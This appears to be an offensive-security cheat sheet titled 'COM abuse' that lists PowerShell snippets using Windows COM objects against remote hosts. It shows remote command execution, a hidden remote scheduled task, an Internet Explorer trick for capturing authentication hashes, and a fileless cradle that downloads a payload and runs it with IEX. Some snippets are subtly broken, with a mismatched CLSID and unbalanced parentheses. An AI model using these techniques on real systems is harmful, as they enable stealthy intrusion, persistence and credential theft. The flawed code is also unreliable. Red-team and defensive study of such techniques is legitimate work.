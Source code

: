 # COM abuse

List of COM objects that can be used to execute command remotely, download file and capture hash

# Command Execution

```
COM Object - E430E93D-09A9-4DC5-80E3-CBB2FB9AF28E - ProcessChain Class
$handle = [activator]::CreateInstance([type]::GetTypeFromCLSID("E430E93D-09A9-4DC5-80E3-CBB2FB9AF28E"), "ip")
$handle.ExecutablePath = "C:\windows\system32\cmd.exe"
$handle.CommandLine = "/c whoami"
$handle.Start([ref]$True)
```

```
COM Object - F935DC22-1CF0-11D0-ADB9-00C04FD58A0B - Windows Script Host Shell Object
$handle = [activator]::CreateInstance([type]::GetTypeFromCLSID("F935DC22-1CF0-11D0-ADB9-00C04FD58A0B", "ip")
$handle.Run("C:\windows\system32\cmd.exe")
```

```
COM Object - F935DC22-1CF0-11D0-ADB9-00C04FD58A0B - Windows Script Host Shell Object
$handle = [activator]::CreateInstance([type]::GetTypeFromCLSID("F935DC22-1CF0-11D0-ADB9-00C04FD58A0B", "ip")
$handle.Exec("C:\windows\system32\cmd.exe")
```

```
COM Object - C08AFD90-F2A1-11D1-8455-00A0C91F3880 - ShellBrowserWindow

$handle = [activator]::CreateInstance([type]::GetTypeFromCLSID("F935DC22-1CF0-11D0-ADB9-00C04FD58A0B", "ip")
$handle.Navigate("C:\windows\system32\cmd.exe")
```

# Remote Task Schedule 

```
$o = [activator]::CreateInstance([type]::GetTypeFromProgID("Schedule.Service"), "ip")
$o.Connect()
$f = $o.GetFolder("\")
$t = $o.NewTask(0)
$s = $t.Settings
$s.Hidden = $True
$a = $t.Actions.Create(0)
$a.Path = "C:\windows\system32\cmd.exe"
$a.Arguments = "/c whoami"
$a.HideAppWindow = $True
$f.RegisterTaskDefinition("a", $t, 6, "", "", 3)
```

# Query Remote Website (support auth hash capture)

```
$o = [activator]::CreateInstance([type]::GetTypeFromProgID("InternetExplorer.Application"), "ip")
$data = $o.Navigate("http://google.ca", 0, "_self", 0,0)
```

# Alternative to DownloadString fileless download

```
$o = [activator]::CreateInstance([type]::GetTypeFromCLSID("F5078F35-C551-11D3-89B9-0000F81FE221")); $o.Open("GET", "http://127.0.0.1:8000/payload", $False); $o.Send(); IEX $o.responseText;
```
